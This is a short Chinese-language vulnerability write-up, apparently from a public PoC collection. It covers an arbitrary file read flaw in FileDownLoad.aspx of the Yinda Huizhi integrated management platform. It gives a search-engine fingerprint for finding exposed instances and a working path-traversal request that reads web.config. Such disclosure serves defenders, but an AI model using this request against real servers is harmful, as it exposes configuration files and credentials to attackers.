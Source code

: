 # 

# 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](./images/202205251509315.png)

验证POC

```
/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![image-20220525151256759](./images/202205251512861.png)
